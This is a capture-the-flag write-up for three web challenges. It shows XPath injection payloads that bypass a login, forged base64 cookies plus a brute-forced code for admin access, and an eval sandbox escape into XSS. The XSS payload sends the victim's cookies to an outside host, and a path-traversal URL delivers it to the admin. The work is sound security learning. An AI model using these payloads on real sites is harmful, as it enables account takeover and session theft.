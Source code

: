 ## Path to Pro

It was a bit tricky challenge.

admin has given the hint in the IRC channel itself that the title is the hint.
First I found out that the SQL Injection works to the pass or user param.

```
REQUEST: http://challenges.wargame.vn/100-path-to-pro_548f20feaa3736e0c7320fc5e5b14a8c/?name=guest&pass=1%22+or+1+and+%221
RESULT:
nothing, flag is not here ;)
Maybe if you login as 'admin' you will find my secret
```

However, I found something weird; only substring() function worked and nothing else were working.
After searching the problem for hours, I later found out that the login runs with xpath checks.

```
REQUEST: http://challenges.wargame.vn/100-path-to-pro_548f20feaa3736e0c7320fc5e5b14a8c/?name=guest&pass=-1%22+or+count(//user/child::node())=5+and+%221
RESULT:
nothing, flag is not here ;)
Maybe if you login as 'admin' you will find my secret
```

after using some xpath injections, I successfully got the flag with a decent path listing.

```
REQUEST:http://challenges.wargame.vn/100-path-to-pro_548f20feaa3736e0c7320fc5e5b14a8c/?name=guest&pass=1%22]%20|%20//*%20|//*[%221%22=%221
REQUEST:



nothing, flag is not here ;)



Maybe if you login as 'admin' you will find my secret



0x3004{XXXpath}
```

flag: `0x3004{XXXpath}`


--

## XYZ BANK

I found out that the cookie has credentials.

```
document.cookie
credential="WyJndWVzdCIsICJndWVzdCIsICIxMjM0Il0="
```

so if I decrypt the base64 string,
```
atob("WyJndWVzdCIsICJndWVzdCIsICIxMjM0Il0=")
'["guest", "guest", "1234"]'
```

It becomes `["guest", "guest", "1234"]`, which I can now assume that the cookie is a json.

as I go through further, I found out that it redirects to the page if I write True, but it gives credential error with true.

Considering that I can bypass the username, 
I have successfully bypassed password verification after trying out several codes from errors that I've got.

```
document.cookie='credential="'+btoa('["guest",True,1234]')+'"';
document.location.href="http://challenges.wargame.vn:50003/";
(Redirects)

..

document.cookie='credential="'+btoa('["guest",1,1234]')+'"';
document.location.href="http://challenges.wargame.vn:50003/";
(Wrong credentials)

..


document.cookie='credential="'+btoa('["guest",False,1234]')+'"';
document.location.href="http://challenges.wargame.vn:50003/";
(Redirects)

..

document.cookie='credential="'+btoa('["guest",0,1234]')+'"';
document.location.href="http://challenges.wargame.vn:50003/";
(info page)
```

So, I can now access admin by bruteforcing the OTP!

```
document.cookie='credential="'+btoa('["admin",0,0001]')+'"';
document.location.href="http://challenges.wargame.vn:50003/";
(Wrong credentials)

..

document.cookie='credential="'+btoa('["admin",0,7331]')+'"';
document.location.href="http://challenges.wargame.vn:50003/";
(info page)
```

![success](xyz_bank_success.png)

Flag is: `Good boy! 0x3004{goooo_home_homie}`

--

## XYZ TEMPLATE

If I login as guest/guest, we find a page with template input textboxes.
Above that, we also see a feedback form to write out few details.

I also have decrypted username and password for cookies.
```
document.cookie
"username=guest; password=guest"
```

I can now conclude that this question is obviously about XSS, since this is a website with html input available with sending stuff to admin.
Anyways, we firstly input the default values in the input box and submit.

```
HTML: (default)
PARAMS: (default)
http://challenges.wargame.vn:50004/template/41845810235ae981f0f8ed2d80580e7a)
```

Let's have a look at the sourcecode of the template page.

```
    setTimeout(function(){
		var html = document.getElementById('html').value;
		var params = (function(){
			var obj = JSON.parse(document.getElementById('params').value);
			return obj;
		})();
		console.dir(params);
		var render_tmpl = new tmpl(html,params);
		document.getElementById('result').innerHTML = render_tmpl.render();
	},300);

  function tmpl(content,params){
    String.prototype.header = function(){
      return "[header]"+this.toString()+"[/header]"
    }
    this.content = content;
    this.params = params || {};
    this.anti_xss = function(input){
      return input.toString()
            .replace(/&/g,'&amp;')
            .replace(/</g,'&lt;')
            .replace(/>/g,'&gt;')
            .replace(/'/g,'&#39;')
            .replace(/"/g,'&quot;')
    }
    this.filter_blacklist = function(input){
      var blacklist = /this|document|window|object|function|top|parent|eval|script|alert|prompt/gi
      // hm...
      return input.replace(blacklist,"..")
    }
    this.render = function(params){
      this.params = params || this.params;
      while(x = /<%=([\w\.\(\)]+)%>/g.exec(this.content)){
        eval("var p = this.params."+this.filter_blacklist(x[1]));
        this.content = this.content.replace(x[0],p);
      }
      return this.anti_xss(this.content)
          .replace(/\n/g,"<br />")
          .replace('[header]','<div class="page-header"><h1>')
          .replace('[/header]','</h1></div>'); // newline to br
    };
  }
```

...?
Yes!!
there is nothing to talk about it further. we see that the code has eval() function.
However, it has all these blacklisted stuff, and all I know now is that the injection has to be done with asp-like tags.

By searching some functions for while, I found out that the constructor method can be called which will eventually load the function.

If we input this and check the console log for testing:

```
HTML: <%=title.header.constructor(console.log(1))()%>
PARAM: (default)
=> http://challenges.wargame.vn:50004/template/a1e1ce29099ba4dbe3b4f168bae6bd62
```

I get the value "1" from console log. This assures that there is a vulnerability for XSS.
As we go further, I realize that the filters can be bypassed after the ASP-like tags.

so if I use some string functions like `substr` or `indexOf`, we can call javascript stuff within the constructor.

so if we input this for xss stuff:
```
HTML: <%=lol.header.constructor(html.value.substr(52))()%>document.location.href='http://stypr.com/xss.pl?xss='+document.cookie;
PARAM: {"lol":"penthackon"}
=> http://challenges.wargame.vn:50004/template/5656b0f5e5f86f9b23c1c2d7c517370e
```

it comes 404 page but it has been redirected to my website with the cookies on it.


Now, it's the feedback one.
they ask the Debug URL for any problem, but if we put
```
http://challenges.wargame.vn:50004/debug/5656b0f5e5f86f9b23c1c2d7c517370e
```

this won't work from server-side because this will only output as text file.

so, if we bypass using LFI methods we can successfully send the template page with the xss on it:
```
http://challenges.wargame.vn:50004/debug/areyouserious/../../template/5656b0f5e5f86f9b23c1c2d7c517370e
```

![success](xyz_template_success.png)

